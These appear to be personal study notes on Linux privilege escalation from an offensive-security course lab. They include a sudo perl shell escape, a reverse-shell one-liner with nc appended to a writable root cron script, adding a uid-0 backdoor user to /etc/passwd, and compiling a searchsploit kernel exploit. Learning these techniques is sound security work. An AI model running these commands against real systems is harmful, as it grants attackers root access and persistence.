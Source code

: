 
Because everything in Linux is a file, most privesc revolves around _insecure file permissions_ or _kernel exploits_.  
  
_THAT_ being said... highly rec [https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
Can search for binaries w/ SUID or GUID bits set, and then search ^ url for possible vulns w/ said binary. (Check #4 of [Linux Privesc exercises](e18%20-%20Linux%20Privesc.md#18.3.5.4))


##### perl
```bash
sudo /usr/bin/perl -e 'exec("/bin/bash")'
```


### Insecure File Permissions:

Must locate an executable that not only allows us write access but also runs at an elevated privilege level.  
  
Cron is a prime target, as system-level scheduled jobs are executed with root user privileges  
& sysadmins often create scripts for cron jobs with insecure perms.  
  
  
Search for installed cron jobs:  
```bash
ls -lah /etc/cron*  
  
OR
  
grep "CRON" /var/log/cron.log  
Jan27 15:55:26 victim cron[719]: (CRON) INFO (pidfile fd = 3)  
Jan27 15:55:26 victim cron[719]: (CRON) INFO (Running @reboot jobs)  
...  
Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
```

**cat**'ing the script shows it copies the student's home dir to the backups subdir  
AND looking at the file shows that not only can anyone can Read/Write to it, BUT it's also executed in the context of the _**root**_ user:  
```bash
#!/bin/bash  
  
cp -rf /home/student/ /var/backups/student/  
  
  
ls -lah /var/scripts/user_backups.sh   
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
```

Meaning, we can edit the script and add a reverse shell one-liner which then executes as root.:  
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> user_backups.sh
```

starting up a **nc** listener on the attack machine & waiting for the cron script to run (check timestamps for how often the cronjob runs) will eventually net a reverse shell w/ root perms:  
```bash
nc -lnvp 1234  
  listening on [any] 1234 ...  
  connect to [10.11.0.4] from (UNKNOWN) [10.11.0.128] 43172  
  /bin/sh: 0: can''t access tty; job control turned off  
  # whoami  
  root  
  # 
```



### /etc/passwd

Unless AD or LDAP is used, Linux passwords are stored in /etc/shadow (not readable by normal users)  
  
Because historically, passwords _were_ stored in /etc/passwd, for backwards compatibility,  
	if there's a password hash present in the 2nd column, it's considered valid **& takes precedence over its respective entry in /etc/shadow**  
  
  
Granted, we have to have write perms for /etc/passwd in the first place ----- Most likely not.  
  
But if we can write to /etc/passwd, we can craft a new user & add it w/ root privileges:  
```bash
student@debian:~$ openssl passwd evil  
AK24fcSx2Il3I  
  
student@debian:~$ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd  
  
student@debian:~$ su root2  
Password: evil  
  
root@debian:/home/student# id  
uid=0(root) gid=0(root) groups=0(root)
```
adding entries:  
	username : pw hash : UID : GID : UID info (comment field) : home directory : command/shell  
	- 0 values for UID & GID specify the account is a superuser account  



### Kernel Vulns:

Success depends on matching the target's kernel version AND the OS flavor (Debian, Redhat, Suse, etc)  
  
First gather info about the target:  
```bash
cat /etc/issue  
Ubuntu 16.04.3 LTS \n \l
```

Inspect kernel version & system architecture:  
```bash
uname -r  
4.8.0-58-generic  
arch  
x86_64
```
	- Kernel version  
	- Architecture  
  
Search for exploits:  
```bash
searchsploit linux kernel ubuntu 16.04  
-------------------------------------------------------- -----------------------------  
 Exploit Title                                          |  Path (/usr/share/exploitdb/  
-------------------------------------------------------- -----------------------------  
...  
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.0 | exploits/linux/local/43418.c
```
	-- Same kernel version target's running  
  
Similar to Windows - we'll use **gcc** to compile the exploit to run on Linux:  
**NOTE: extremely important we compile on a computer w/ the same architecture  
```bash
gcc 43418.c -o exploit
```
  
Copy to target & run